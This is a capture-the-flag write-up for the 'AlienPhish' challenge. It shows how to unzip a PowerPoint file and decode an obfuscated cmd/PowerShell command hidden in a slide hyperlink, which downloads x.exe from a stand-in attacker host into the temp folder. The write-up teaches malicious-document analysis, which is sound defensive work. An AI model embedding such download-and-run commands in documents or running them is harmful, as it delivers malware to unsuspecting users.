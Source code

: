 # AlienPhish
_We were given a Microsoft Powerpoint Presentation [file](/Alien%20Weaknesses.pptx) with **.pptx** extension._

## **Solution**
Basically, Microsoft fies with __.*x__ extension like **.docx**, **.pptx**, **.xlsx**, etc are compressed files, that means they can be opened with any zip archive software. 

A malicious code (generally in VBA) can be hidden inside these files.

![zip](images/zip.gif)

My first step was to open this ppt file using a zip archive. You can also use `binwalk` to extract the data if you are using any Linux based OS, but I will stick to `WinRar`.


![zip](images/S0.jpg)


As I see a lot of XML files, looking at rels files makes sense as to see the relationships.


*Opening slide1.xml.rels file gives us:*

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationship Id="rId2" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22" TargetMode="External"/><Relationship Id="rId4" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe" TargetMode="External"/></Relationships>
```

NOTE: I have only included the relevant XML code from it.
You can find the full file [here](resources/slide1.xml.rels).

_We can clearly see that it is trying to execute CMD commands. The command is url encoded, the decoded command is :_

```cmd
cmd.exe /V:ON/C"set yM="o$ eliftuo- exe.x/neila.htraeyortsed/:ptth rwi ;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'   pmet:vne$ = o$" c- llehsrewop&amp;&amp;for /L %X in (122;-1;0)do set kCX=!kCX!!yM:~%X,1!&amp;&amp;if %X leq 0 call %kCX:*kCX!=%""
```

*We can see `for /L%X in (122;-1;0)` reverses the string. We can use python to do the same.*

```python
 x = "o$ eliftuo- exe.x/neila.htraeyortsed/:ptth rwi ;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'   pmet:vne$ = o$"
 print(x[::-1])
```

It gives `"$o = $env:temp   'Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99.exe'; iwr http:/destroyearth.alien/x.exe -outfile $o"`

Everything here makes sense except *some_random_string.exe*.

Decoding it using online [base64 decoder](www.base64decode.org/) gives us the flag.

>**Flag :** _CHTB{pH1sHiNg_w0_m4cr0s???}_
